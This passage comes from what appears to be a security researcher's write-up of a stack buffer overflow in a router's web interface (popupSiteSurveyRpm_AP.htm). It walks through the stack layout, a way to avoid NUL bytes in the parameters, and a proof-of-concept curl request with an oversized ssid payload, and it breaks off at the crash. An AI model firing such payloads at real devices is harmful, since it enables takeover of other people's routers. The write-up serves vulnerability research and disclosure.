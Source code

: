 The buffer named here ``local_buffer`` has size 68 and 
contains the value for the parameters that will be printed;
the organization in memory is the following

```text
0x00  |             |
      | ssid        |
      |             |
0x24  | curRegion   |
0x28  | channel     |
0x2c  | chanWidth   |
0x30  | mode        |
0x34  | wrr         |
0x38  | sb          |
0x3c  | select      |
0x40  | rate        |
 ...
0x??  | return addr |
```

this complicates a little the exploiting since these parameters
can set some ``NUL`` bytes along the way, but don't worry, the way
in which they are handled allows me to specify values that do not
set bytes, for example

```c
    value = httpGetEnv(req,"mode");
    if (value == (dword *)0x0) {
      local_buffer._48_4_ = 1;
    }
    else {
      local_e1c = atoi((char *)value);
      if (local_e1c - 1 < 8) {
        local_buffer._48_4_ = local_e1c;
      }
    }
```

if is not set ``mode`` then the value ``0x00000001`` is placed in the stack
    (and this is a problem since contains ``NUL`` bytes); any value less than 8
    is used as value but obviously, for the same reason, I don't want that. The
    bypass is simply to use a bigger value to avoid anything to be written in
    the stack, for example ``mode=1000``.

Now I have all the pieces in place and I can try a simple proof of concept.

## PoC

If I do a simple ``GET`` request with a payload big enough

```bash
$ curl \
	-H 'Cookie: Authorization='$BASE \
	'http://localhost:8080/'$ROOT'/userRpm/popupSiteSurveyRpm_AP.htm?\
	mode=1000&curRegion=1000&chanWidth=100&channel=1000&\
ssid='$(python -c 'print( "/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac")')
```
I obtain the following crash:
